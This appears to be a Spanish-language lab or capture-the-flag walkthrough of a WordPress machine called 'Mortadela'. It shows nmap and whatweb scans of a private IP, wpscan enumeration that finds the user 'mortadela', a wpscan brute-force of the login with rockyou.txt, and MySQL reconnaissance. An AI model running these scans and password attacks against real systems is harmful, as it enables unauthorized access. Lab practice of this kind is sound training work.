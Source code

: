 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p22,80,3306 192.168.100.36 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.57 ((DebianMantic))
3306/tcp open  mysql   MariaDB 5.5.5-10.11.6
```
---

## Enumeracion de [Servicio Web Principal](WordPress)
direccion **URL** del servicio:
```bash
http://192.168.100.36/wordpress/
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://192.168.100.36/wordpress/
http://192.168.100.36/wordpress/ [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.100.36], MetaGenerator[WordPress 6.4.3], Script, Title[Mortadela], UncommonHeaders[link], WordPress[6.4.3]
```
### Descubrimiento de Archivos y Rutas
```bash
wpscan --url http://192.168.100.36/wordpress --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```

- **Hallazgos**:
```bash
http://192.168.100.36/wordpress/readme.html
http://192.168.100.36/wordpress/wp-content/uploads/
http://192.168.100.36/wordpress/wp-cron.php
 WordPress version 6.4.3 identified (Insecure, released on 2024-01-30) # Version vulnerable
```

Tenemso un usuario valido para el **gestorCMS**
```bash
[i] User(s) Identified:

[+] mortadela
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Mientras realizaremos un ataque de fuerza bruta, en lo que seguimos enumerando el **gestorCMS**
```bash
wpscan --url http://192.168.100.36/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames mortadela
```
### Enumeracion MySQL
Ahora enumeramos este servicion con scripts de reconocimiento basico:
```bash
nmap -p 3306 --script mysql-info,mysql-empty-password 192.168.100.36
```
